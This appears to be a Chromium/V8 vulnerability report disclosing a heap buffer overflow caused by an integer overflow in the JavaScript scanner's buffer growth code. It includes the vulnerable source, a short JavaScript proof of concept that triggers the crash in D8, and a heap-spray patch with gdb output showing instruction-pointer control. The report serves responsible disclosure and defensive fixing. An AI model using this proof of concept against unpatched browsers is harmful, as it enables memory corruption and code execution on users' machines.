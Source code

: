 <b>VULNERABILITY DETAILS</b>
A heap buffer overflow is possible due to an integer overflow in the
*NewCapacity* function:

```
int Scanner::LiteralBuffer::NewCapacity(int min_capacity) {
  int capacity = Max(min_capacity, backing_store_.length());
  int new_capacity = Min(capacity * kGrowthFactory, capacity + kMaxGrowth); 
  return new_capacity;
}

void Scanner::LiteralBuffer::ExpandBuffer() {
  Vector<byte> new_store = Vector<byte>::New(NewCapacity(kInitialCapacity));
  printf("Memcpy(%p, %p, 0x%x)\n", new_store.start(), backing_store_.start(), 
    position_);
  MemCopy(new_store.start(), backing_store_.start(), position_);
  backing_store_.Dispose();
  backing_store_ = new_store;
}
```

We can control `backing_store_.length()` by varying the length of a JavaScript
string. A huge JavaScript string leads to a huge `capacity` value, which can
make the expression `capacity * kGrowthFactory` overflow, so that
`new_capacity` will be set to a smaller value than the previous capacity.
In consequence, the next `MemCopy` will write more bytes into the vector than 
were previously allocated, causing memory corruption.


<b>VERSION</b>
D8 Version: V8 7.2.502
Chrome Version: Chromium 72.0.3626.0 stable
Operating System: Linux 4.15.0-42-generic x86_64 (Ubuntu)


<b>REPRODUCTION CASE</b>
```
let s = String.fromCharCode(0x4141).repeat(0x10000001) + "A";
s = "'"+s+"'";
eval(s);
```

The PoC can be directly executed with a release build of D8 via `./d8 poc.js`.
For a debug build the DCHECK in `Vector::length()` from the file
`v8/src/vector.h` needs to be removed to successfully trigger the bug.


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: Tab (V8 => Renderer)
Crash State: See `crash_asan.log`


EXPLOITABILITY
A simple way to demonstrate exploitability is to add a simple heap spray by
applying the patch below:

```
diff --git a/src/parsing/parsing.cc b/src/parsing/parsing.cc
index 378023cbeb..f76595f0fb 100644
--- a/src/parsing/parsing.cc
+++ b/src/parsing/parsing.cc
@@ -18,6 +18,15 @@ namespace internal {
 namespace parsing {
 
 bool ParseProgram(ParseInfo* info, Isolate* isolate) {
+  const int size = 0x20000000/0x40;
+  void** p = (void**) malloc(size * sizeof(void*));
+  for (int i = 0; i < size; i++) {
+    p[i] = malloc(0x40);
+  }
+  for (int i = 0; i < size; i++) {
+    free(p[i]);
+  }
+
   DCHECK(info->is_toplevel());
   DCHECK_NULL(info->literal());
```

Afterwards the PoC can be run with a release build of D8, demonstrating
RIP control:

```
$ gdb --args out/release/d8 poc.js

>  x/i $rip
=> 0x7ffff71f7520 <v8::internal::Utf16CharacterStream::ReadBlockChecked()+32>:	
    call   QWORD PTR [rax+0x18]
>  info reg rax
rax            0x4141414141414141	0x4141414141414141
```


<b>CREDIT INFORMATION</b>
Reporter credit: Dimitri Fourny (Blue Frost Security)
